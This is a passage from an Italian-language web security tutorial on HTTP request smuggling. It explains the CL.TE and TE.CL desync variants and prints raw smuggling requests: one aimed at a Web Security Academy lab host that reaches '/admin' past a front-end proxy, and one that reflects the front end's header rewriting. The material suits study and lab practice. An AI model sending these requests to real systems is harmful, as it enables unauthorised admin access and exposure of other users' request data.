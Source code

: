 Nell'attacco CL.TE, l'intestazione `Content-Length` viene sfruttata per la richiesta iniziale, mentre la successiva richiesta incorporata utilizza l'intestazione `Transfer-Encoding: chunked`. Il proxy front-end elabora la richiesta `POST` iniziale ma non riesce a ispezionare la richiesta incorporata `GET /admin`, consentendo l'accesso non autorizzato al percorso `/admin`.

**Esempio TE.CL**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0

```
Al contrario, nell'attacco TE.CL, la richiesta iniziale `POST` utilizza `Transfer-Encoding: chunked`, e la successiva richiesta incorporata viene elaborata in base all'intestazione `Content-Length`. Simile all'attacco CL.TE, il proxy front-end ignora la richiesta `GET /admin` contrabbandata, concedendo involontariamente accesso al percorso riservato `/admin`.

### Rivelazione della riscrittura delle richieste front-end <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

Le applicazioni spesso impiegano un **server front-end** per modificare le richieste in arrivo prima di passarle al server back-end. Una modifica tipica comporta l'aggiunta di intestazioni, come `X-Forwarded-For: <IP del client>`, per trasmettere l'IP del client al back-end. Comprendere queste modifiche può essere cruciale, poiché potrebbe rivelare modi per **bypassare le protezioni** o **scoprire informazioni o endpoint nascosti**.

Per indagare su come un proxy altera una richiesta, individua un parametro POST che il back-end restituisce nella risposta. Quindi, crea una richiesta, utilizzando questo parametro per ultimo, simile al seguente:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```
In questa struttura, i componenti della richiesta successiva vengono aggiunti dopo `search=`, che è il parametro riflesso nella risposta. Questa riflessione esporrà le intestazioni della richiesta successiva.
